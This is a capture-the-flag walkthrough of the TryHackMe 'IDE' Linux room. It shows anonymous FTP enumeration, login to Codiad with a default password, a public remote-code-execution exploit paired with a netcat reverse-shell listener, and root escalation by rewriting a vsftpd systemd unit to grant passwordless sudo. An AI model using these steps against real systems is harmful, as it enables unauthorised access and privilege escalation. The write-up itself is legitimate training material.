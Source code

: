 **Category:** Linux

**Difficulty:** Easy

**Status:** Completed

**Link:** https://tryhackme.com/room/ide

---

## 1. Challenge Description

An easy box to polish your enumeration skills!

## 2. Enumeration

### Basic scan

```bash
nmap -sS -p- -Pn <IP>
```



### Detail scan

```bash
nmap -T4 -A -p 21,22,80,62337 <IP>
```


## 3. **FTP Enumeration**

```bash
ftp <IP>
# name : anonymous
#password : empty
```



```bash
ls -la
cd ...
ls -la
get -
```



```bash
cp - test
cat test
```



> It appears that `john` and `drac` are potential users in the target system.
> 

## 4.HTTP Port 62337

 



> the user is `john` and default password is `password`
> 



### Codiad 2.8.4

> Search on Codiad 2.8.4 exploit and download the py file
> 

[Codiad 2.8.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49705)

### Usage



```bash
nc -lvnp 4444 #root privilege
```

```bash
└─$ python3 exploit.py http://<IP>:62337/ john password <MY VM IP> 4444 linux
```

### User flag



```bash
cd home/drac
ls -lna
```

```bash
cat user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

```bash
cat .bash_history
```



```bash
ssh drac@IP 
#password is TH...
```



### Root flag



> We can executo /usr/sbin/service vsftpd restart as sudo so we can try to change the vsftpd.service to execute a reverse shell when we restart the service.
> 

```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

```bash
nano /lib/systemd/system/vsftpd.service
```

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```

```bash
 /usr/sbin/service vsftpd restart
```

```bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password:
==== AUTHENTICATION COMPLETE ===

drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```

```bash
drac@ide:~$ sudo su
root@ide:/home/drac# cd
root@ide:~# ls
root.txt
```
